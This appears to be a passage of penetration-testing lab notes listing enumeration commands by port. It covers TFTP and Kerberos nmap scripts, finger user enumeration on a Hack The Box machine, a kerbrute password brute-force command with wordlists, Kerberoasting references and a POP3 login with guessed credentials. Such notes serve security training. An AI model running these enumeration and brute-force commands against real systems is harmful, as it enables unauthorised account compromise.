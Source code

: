 ## Port 69 - UDP - TFTP

This is used for tftp-server.

- Vulns tftp in server 1.3, 1.4, 1.9, 2.1, and a few more.
- Checks of FTP Port 21.

```
nmap -p69 --script=tftp-enum.nse 10.11.1.111
```

## Port 79 - Finger
Ref:HtB Sunday

```
kali@kali:~/HtB/Sunday/finger-user-enum-1.0$ ./finger-user-enum.pl -U /usr/share/seclists/Seclists/Usernames/Names/names.txt -t 10.10.10.76 

```

## Kerberos - 88

```
- MS14-068
- GetUserSPNs
GET USERS:

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IP
use auxiliary/gather/kerberos_enumusers

https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt

https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
```

## Port 110 - Pop3

```
telnet 10.11.1.111
USER pelle@10.11.1.111
PASS admin

or:

USER pelle
PASS admin

# List all emails
list

# Retrieve email number 5, for example
retr 9
```
